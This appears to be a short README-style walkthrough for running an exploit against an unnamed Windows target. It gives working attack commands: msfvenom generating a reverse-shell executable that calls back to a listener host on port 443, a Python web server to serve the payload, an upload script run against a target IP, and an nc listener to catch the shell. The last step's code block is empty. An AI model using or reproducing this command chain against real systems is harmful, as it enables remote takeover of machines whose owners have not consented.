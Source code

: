 1. make revshell exe file
   
   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.168.139 LPORT=443 -f exe > weinrev.exe
   ```
2. Run a python server on this directory
   ```
   python3 -m http.server 80
   ```
3. Edit upload.py at line 119 and run
   ```
   python2 upload.py target_ip
   ```
4. Run a nc for getting reverse shell
   ```
   nc -lnvp 443
   ```
5. Edit exploit.py at line 119 and run
   ```

   ```
